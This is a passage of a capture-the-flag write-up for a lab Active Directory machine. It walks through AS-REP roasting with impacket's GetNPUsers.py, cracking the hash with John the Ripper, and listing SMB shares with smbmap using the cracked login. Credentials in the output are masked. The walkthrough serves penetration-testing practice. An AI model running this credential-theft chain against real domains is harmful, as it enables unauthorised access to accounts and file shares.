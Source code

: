 Kerbrute found some Username for the Domain. 


# Exploiting Kerberos

For a kerberus Ticket we use the program "GetNPUser.py" script from impacket. This will receive a kerberus hash.
This has can be cracked with the provided Password list from this room and johntheripper.

```sh 
python3 GetNPUsers.py spookysec.local/s******n-no-pass 
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for s******n
$krb5asrep$23$s******n@SPOOKYSEC.LOCAL:a***********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************b
```

Hashcracking with JohnTheRipper:

```sh
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ sudo john kerberushash --wordlist=password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m************5   ($krb5asrep$23$s*******n@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2020-11-03 21:45) 16.66g/s 110933p/s 110933c/s 110933C/s horoscope..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

found a password for the user "s*******n"

# Enumerating the DC pt3

For this step we will have a look at the SMB-Share. We can check if we can download a folder on the Share. 

```sh
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ smbmap -H spookysec.local -d spookysec.local -u s*******n -p m************5                                  1 ⨯
[+] IP: spookysec.local:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	b****p                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
```
